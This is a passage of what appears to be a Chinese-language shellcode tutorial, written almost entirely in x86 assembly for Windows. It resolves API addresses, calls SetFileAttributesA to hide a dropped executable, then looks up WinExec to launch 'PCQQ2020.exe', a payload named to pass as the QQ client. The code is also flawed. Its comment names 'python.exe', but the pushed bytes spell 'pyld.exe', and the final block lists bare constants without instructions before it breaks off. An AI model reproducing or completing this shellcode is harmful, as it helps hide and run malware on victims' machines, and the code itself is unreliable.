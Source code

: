 ```
push esp
push edi

call esi

;--------------------------------

add esp,20 ;U must adjust stack or it will crash
```
* 调用`SetFileAttributesA()`
```
;--------------------
;calling SetFileAttributesA("python.exe",FILE_ATTRIBUTE_HIDDEN) 
xor ecx,ecx
push ecx
push 0x6578652e
push 0x646c7970

push esp
pop ecx

xor edx,edx
add edx,2 ;FILE_ATTRIBUTE_HIDDEN

push edx
push ecx

call eax

;-------------------

add esp,8
```
* 找到`WinExec()`函数地址
```
;---------------------------

;finding address of WinExec()
xor ecx,ecx

push 0x41636578
mov [esp+3],byte cl
push 0x456e6957

push esp
push edi
call esi

;----------------------

add esp,8

```
* 执行函数
```
;------------------------
;calling WinExec("PCQQ2020.exe",0)
xor ecx,ecx
push ecx
0x6578652e  ; exe.
0x30323032  ; 0202
0x51514350  ; QQCP

push esp
```